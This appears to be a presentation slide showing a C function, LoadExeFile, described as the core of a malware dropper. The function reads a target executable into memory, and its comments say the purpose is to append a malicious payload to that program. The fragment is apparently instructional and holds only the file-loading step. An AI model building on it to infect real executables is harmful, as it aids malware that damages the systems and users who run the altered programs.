

Dropper Core Implementation- Load infected program
VOID LoadExeFile(LPCSTR FileName)
{
	// If exist，then open the file. Here we want to read the infected program
	HANDLE FileHandle = CreateFileA(FileName, GENERIC_READ, NULL,
		NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);

	// Get the size of the file because we want to add the malicious payload to its end.
	FileSize = GetFileSize(FileHandle, NULL);
	FileBase = (DWORD)calloc(FileSize, sizeof(BYTE));

	// load the infected program to a buffer
	DWORD Read = 0;
	ReadFile(FileHandle, (LPVOID)FileBase, FileSize, &Read, NULL);

	// close the file
	CloseHandle(FileHandle);
}